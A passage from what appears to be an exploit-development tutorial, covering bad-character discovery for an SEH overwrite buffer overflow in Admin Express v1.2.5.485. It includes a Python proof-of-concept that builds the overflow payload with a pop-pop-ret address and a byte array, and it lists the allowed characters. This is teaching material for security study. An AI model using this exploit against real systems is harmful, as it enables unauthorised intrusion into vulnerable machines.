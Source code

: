 <img src="{{ site.url }}{{ site.baseurl }}/images/7.png" alt="">

Step through with `F7`. We reach our nSEH jump instruction, but we notice something wrong! Our instructions got mangled:

<img src="{{ site.url }}{{ site.baseurl }}/images/8.png" alt="">

Well, this is a problem. A short jump is the typical instruction for jumping we are used to. It is evidently a bad character. We now need to determine what all the other bad characters are, so we do not run into this problem again. [Here](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/) is a place that automatically stores all the characters possible into a variable. I have also updated the PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = "\x41" * 4260
#payload += "\xeb\x06\x90\x90"          # Short jump 6 bytes into C buffer
payload += "\x42\x4c\x01\x10"           # 0x10014c42 pop pop ret wmiwrap.DLL
payload += badchars                     # Adding bad characters.
payload += "\x43" * (5000-len(payload))

print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```
You may have to break the bad characters up into two sections. When printing these characters to the console, you will notice a break in the lines. Just try chunks of the characters at a time. In the end, when you throw all these characters at the application you will find the allowed character set. To save time, I will provide it to you. The allowed characters for this exploit are as follows (in hex):
`01-04, 06, 10-7E`. This will prove to provide some challenges going forward. But for now, just remember these characters are bad.

